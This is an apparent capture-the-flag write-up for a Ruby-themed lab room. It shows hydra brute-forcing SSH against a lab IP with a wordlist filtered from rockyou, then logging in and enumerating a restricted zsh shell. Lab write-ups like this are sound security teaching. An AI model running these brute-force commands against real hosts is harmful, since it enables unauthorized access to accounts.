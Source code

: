 # Red Stone One Carat

## TASK 1
Rooms of the **Red Stone** series share the same goals:

-   Discovering and learning [Ruby](https://www.ruby-lang.org/)  
    
-   Scripting and hacking with [Ruby](https://www.ruby-lang.org/)  
    
-   Exploiting and identifying vulnerabilities in [Ruby](https://www.ruby-lang.org/) programs

I'll give you a valuable source to find stuff related to Offensive Security using Ruby: [https://rubyfu.net/](https://rubyfu.net/).

**Disclaimer**: this room requires custom exploitation and scripting and is more CTF-like than real life applicable.

## TASK 2

Brute-force ssh with given hint
-  HINT : The password contains "bu".
```bash
root@ip-10-10-250-253:~# grep "bu" /usr/share/wordlists/rockyou.txt > dict.txt
root@ip-10-10-250-253:~# hydra -l noraj -P dict.txt 10.10.93.200 ssh
```

SSH to machine with the password

```bash
root@ip-10-10-250-253:~# ssh noraj@10.10.93.200
The authenticity of host '10.10.93.200 (10.10.93.200)' can't be established.
ECDSA key fingerprint is SHA256:SuMSHpQhKSw7AAbZmXq3aY/GOitfbGFUiIg2cTZFfOc.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.93.200' (ECDSA) to the list of known hosts.
noraj@10.10.93.200's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

red-stone-one-carat% 
```

Looks like it is a restricted shell. If you don't know what it is,Click [HERE](https://en.wikipedia.org/wiki/Restricted_shell)
But there is a alias for which command and we can use **whence** instead of which in this situation and find some commands.

```bash
red-stone-one-carat% echo $SHELL
/bin/rzsh
red-stone-one-carat% alias
which-command=whence
red-stone-one-carat% whence pwd
pwd
red-stone-one-carat% whence cat
red-stone-one-carat% whence ls
red-stone-one-carat% whence echo
echo
red-stone-one-carat% whence cd
cd
```
So there are some commands available like **echo, cd, pwd**.
